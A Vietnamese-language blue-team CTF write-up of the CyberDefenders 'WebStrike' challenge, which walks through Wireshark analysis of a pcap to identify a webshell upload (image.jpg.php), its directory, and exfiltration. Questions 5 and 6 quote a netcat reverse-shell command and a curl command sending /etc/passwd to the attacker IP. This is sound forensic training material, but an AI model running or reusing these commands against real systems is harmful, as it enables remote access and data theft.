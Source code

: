 # Webstrike - Week1
Tool sử dụng trong bài: Wireshark
Scenario (tình huống): Một điểm bất thường đã được phát hiện trong mạng nội bộ của công ty chúng tôi khi nhóm dev đã tìm thấy một tệp bất thường trên webserver. Nghi ngờ có mã độc, nhóm mạng đã chuẩn bị một tệp pcap có network traffic quan trọng để phân tích cho nhóm bảo mật. Hãy phân tích gói pcap.

Với bài lần này, ta được cung cấp 1 file **pcap** được nén trong file **zip** với password **cyberdefenders.org**.

Link -> [Cyberdefend](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)

----

# Các câu hỏi
![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/5d8a7e98-1536-47c9-b6ad-2218cc47d4a6)

Tạm dịch các câu hỏi:
1. [Tìm kiếm địa chỉ IP của người tấn công](#c1)
2. [Tìm kiếm user-agent của kẻ tấn công](#c2)
3. [Tên của webshell đã upload](#c3)
4. [Tìm kiếm directory (thư mục) để chứa file vừa được upload](#c4)
5. [Webshell được gửi tới sử dụng port nào](#c5)
6. [Kẻ tấn công đang cố gắng lấy đi tập tin nào](#c6)

# Bài làm
## Câu  1 <a name="c1"></a>   
Vì là người tấn công thì thường là người bắt đầu gói tin, nên mình sẽ lấy địa chỉ ip source của package đầu tiên

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/e423f212-d89b-4577-99d8-89b6954aa382)

Mình thử check địa chỉ **117.11.88.124** ở tại vị trí nào bằng [Ip location](https://www.iplocation.net/)

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/3eb8b49f-b59a-4897-a0cf-c481046f9e20)

Tại đây thì mình tìm được thành phố là Tianjin thì mình thử nhập vào ô điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/4ea6b7ee-851a-4d8f-8cb2-ccc190c2fe08)

## Câu 2 <a name="c2"></a>  
Vì câu này hỏi về user-agent, ta sẽ cùng đi tìm hiểu qua user-agent là gì
Về cơ bản, user-agent là thông tin bạn gửi tới server từ trình duyệt của bạn. Có thể hiểu nó là thứ để định danh bạn. Thông thường thông tim bao gồm:
* Phiên bản của trình duyệt
* Hệ điều hành của bên bạn
* Loại thiết bị (vd: Tablet, smartphone, laptop,...)
* 1 vài thông tin khác về client software

Trước tiên chúng ta cùng thử lọc xem cái nào có điều kiện ta cần. Mình sẽ lọc 2 lần với điều kiện thỏa mãn:
* Có source từ 117.11.88.124
* Có user-agent

Vậy ta có câu lệnh để lọc: 
`ip.src==117.11.88.124 && http.user_agent`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/ebf2e91e-f4c8-4657-934a-bd8b6afe7f50)

Mình xem thử 1 package, trong phần transmission control protocol (TCP) -> HyperText transfer protocol (Http) -> user-agent sẽ có đoạn string mình cần tìm 

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/37e1ba2e-1c63-46a5-9a71-1e4f366eae3f)

Theo như trên hình thì mình tìm được là `User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0\r\n` nhưng đuôi \r\n này là cách xuống dòng của window (Theo nguổn [StackOverflow](https://stackoverflow.com/questions/15433188/what-is-the-difference-between-r-n-r-and-n)). Và vì định dạng flag là không có đuôi \r\n nên flag chắc hẳn chỉ có phần `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`

Tiện cũng nói thêm về các cách xuống dòng ở trên các hệ điều hành:
* `\r` (Carriage return) là xuống dòng của MacOS từ trước X (Tức là từ đời dòng máy macintosh)
* `\n` (Line feed) là xuống dòng dành cho hệ điều hành macOS X, Unix và những bản phân phối của unix (Ubuntu, Kali linux,....)
* `\r\n` là xuống dòng dành cho Windows
**Với cái này mình có thể xác định được hệ điều hành của client sử dụng là gì**

Vậy mình thử nhập `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` vào phần điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/027bbd49-90ac-4b97-b8c1-9b539d25214e)

## Câu 3 <a name="c3"></a>  
Sau khi đọc câu này, mình sẽ thử kiểm tra xem từ file pcap này mình có xuất ra được file nào không bằng cách vào File -> Export object -> HTTP...

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/e54534ba-f1e3-4354-b0c0-0a309b668e3e)

Tại đây mình thấy 2 file đáng ngờ với dạng content là **multipart/form-data** tại package 53 và 63. Mình sẽ tiến hành kiểm tra 2 Package này. Điều cần chú ý ở đây là tại mục Multipart media encapsulation xem có cái gì liên quan tới tên file không

**Package 53**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/6ccc999f-f897-480b-819c-4b6097e99792)

**Package 63**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/46a3cdaf-f773-42f7-bfa0-0980d093bb6b)

Tại đây mình tìm thấy 1 phần khá đáng ngờ là **(application/X-php)**. Cái này còn được gọi là MIME (Multipurpose internet mail extension) dùng để trao đổi file với mail. Tại đây là đang trao đổi với file PHP

Mình sẽ tiến hành kiểm tra 2 mục này của cả 2 package 53 và 63

**Package 53**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/41f1b07a-312b-468b-9012-86fd6a0d99ea)

**Package 63**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/f692d0a2-c3e2-451d-b51a-b3b49dc60d5a)

Tại package 63 có 1 đoạn hiển thị `filename=image.jpg.php`. Mình đoán cái này chính là đáp án với 2 lí do:
* Đoạn này giống như là đang cố gắng lừa người đây là 1 file hình ảnh vậy.
* Dạng của flag là \*\*\*\*\*.\*\*\*.\*\*\*

Mình thử nhập trên chỗ nhập flag là `image.jpg.php`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/029db335-ba29-40da-adb4-8a5c75d43c22)

## Câu 4 <a name="c4"></a>  

Vì file **image.jpg.php** (webshell) đã được tải lên, mình sẽ tìm kiếm package có chứa URI dẫn tới file đó

URI (Uniform Resource identifier) cơ bản là cách để nhận định tài nguyên trên web hay server nào đó. Tài nguyên ở đây có thể hiểu theo các file như file ảnh, video,.... Cấu trúc của URI bao gồm:
* URL (Uniform resource locator) có thể hiểu đơn giản là địa chỉ chung để truy xuất tài nguyên trên mạng máy tính. URL có dạng https://www.google.com/..... trong đó:
* * **https** là giao thức kết nối
  * **www.google.com** là tên miền
  * ..... Thường là đường dẫn tới file của trang web
* URN (Uniform resource name) Cơ bản là danh tính tài nguyên ở trên server. Nó thường là ISBN và ISSN. VD: urn:isbn:0132350882

Vì chúng ta có các dữ kiện trên, mình cần tìm tới đường dẫn đã lưu phần **image.jpg.php** bằng cách sử dụng filter: `http.request.full_uri contains "image.jpg.php"`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/df22bf25-da91-43b5-928e-b629ba9a6ca6)

Và ta có thể thấy đường dẫn tới thư mục upload là **/reviews/uploads**. Nhập thử lên web

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/151d3f90-c1a1-439a-adfe-2e751303e4ce)

## Câu 5 <a name="c5"></a>  

Với câu này, để xem phần webshell đã sử dụng port nào thì chúng ta chỉ cần check source code của nó. Vậy thì mình sẽ tiến hành xuất nó ra khỏi file pcap bằng cách vào File -> Export object -> HTTP...-> Chọn file (package 63) và Save.

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/58ea1db0-e6fa-44bb-976b-f3caeffe215f)

Mình thử mở source code lên

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/70620e8f-3bf0-4cdf-9380-a3c5a62b1a17)

Tại đây ta có thể thấy câu lệnh `nc 117.11.88.124 8080` trong đó:
* nc = netcat
* 117.11.88.124 là ip
* 8080 là port

Vậy mình thử nhập 8080 vào chỗ điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/508265b5-11cd-4909-8f55-e4af3edf65f4)

## Câu 6 <a name="c6"></a>  

Tại đây, ta có 2 thông tin sau:
* Vì ta đã biết webshell đang sử dụng Netcat nên ta có thể giới hạn lại giao thức là **tcp** hoặc **udp**.
* Vì đây là webshell nên mình cần tìm payload
* Cần lọc các giao thức http đi

Vậy ta sẽ có filter như sau:
`tcp.payload and tcp and !http`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/39d3c58d-e559-4948-85fc-e5974ab621c9)

Tại đây mình tiến hành follow stream của package trên này. Bằng cách này chúng ta có thể biết kẻ tấn công của chúng ta đã giao tiếp gì với server

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/4f64d582-b887-4cf0-a6aa-233520a44adf)

Ở bên dưới, ta thấy có dòng `curl -X POST -d /etc/passwd http://117.11.88.124:443/`, tức họ đang cố gắng tải về file **passwd**. Thử nhập tên file vào ô điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/c175a45f-9b82-430a-8ba0-cb0fff12f9a5)


#End check clear challenge

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/f6907678-e063-4675-b31b-1ed516e6718a)


--**END**--
